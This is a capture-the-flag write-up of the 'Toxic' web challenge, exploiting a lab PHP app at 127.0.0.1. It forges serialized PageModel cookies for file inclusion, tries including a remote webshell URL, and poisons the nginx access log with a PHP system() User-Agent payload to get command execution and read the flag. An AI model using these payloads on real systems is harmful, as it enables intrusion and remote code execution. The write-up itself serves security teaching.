 # Toxic

> **Humanity has exploited our allies, the dart frogs, for far too long, take**
> **back the freedom of our lovely poisonous friends. Malicious input is out of**
> **the question when dart frogs meet industrialisation.**

## Cookies!

The page's cookie is a serialize php object:

```bash
echo Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9 | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

It represents the page object meant to be included by `index.php`:

```php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

## Object deserialization & LFI

Let's try and include another file:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:30:"/www/static/css/production.css";}'))
```
(for some reason the shell encoding has padding while the php version does not)

> `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czozMDoiL3d3dy9zdGF0aWMvY3NzL3Byb2R1Y3Rpb24uY3NzIjt9`

After changing the cookie with the dev tools, refreshing actually returns the junk css.

## Fast and failed

Naïvely:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:5:"/flag";}'));
```

This returns an empty page: the flag name is randomized at the start.

The first idea is to include a web url:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:83:"https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/php/cmd.php";}'));
```

But the server is not connected to the internet or at least blocks the php filters:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:11:"php://input}')."\n");
```

Since this previous snippet fails as well.

## Log poisoning

The goal is to find a log file and inject the php code for a web/reverse shell.
Then the LFI bug will give us code execution.

### Finding the log file

#### Enumeration

The LFI can also serve for file enumeration, with a wordlist of base64 encoded path:

```bash
ffuf -b "PHPSESSID=FUZZ" -w paths.b64 -fs 0 -u http://127.0.0.1:1337/
```

#### Wordlist generation

And we can create the wordlist with:

```php
echo(base64_encode(sprintf(
    'O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}',
    strlen($argv[1]),
    $argv[1]
))."\n");
```

And:

```bash
cat /usr/share/wordlists/discovery/log.txt | xargs -I{} -n1 php toxic.php {} > paths.b64
```

#### Results

There are 2 target log files:

> `/var/log/nginx/access.log`
> `/var/log/nginx/error.log`

### Poisoning the log file

Looking at the access log:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" \
  -p -x 127.0.0.1:8080 \
  http://127.0.0.1:1337
```

```
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
172.17.0.1 - 200 "GET /nginx HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
```

The user agent is printed in the file. Let's try and replace it with code:

```bash
curl -A '<?php system(urldecode($_REQUEST['cmd']));?>' http://127.0.0.1:1337
```

### Executing the log file

Accessing the log file with a command as get argument:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" -p -x 127.0.0.1:8080 http://127.0.0.1:1337/index.php?cmd=id
```

Returns:

```
...
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "noleak"
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "uid=1000(www) gid=1000(www) groups=1000(www)
```

Sooooooo, let's search for the flag:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" -p -x 127.0.0.1:8080 http://127.0.0.1:1337/index.php?cmd=ls /
```

```
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "bin
dev
entrypoint.sh
etc
flag_3ozfd
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
"
172.17.0.1 - 408 "GET /index.php?cmd=id HTTP/1.1" "-" ""
```

And:

```bash
curl -b "PHPSESSID=$(php toxic.php /flag_3ozfd)" http://127.0.0.1:1337/index.php
```
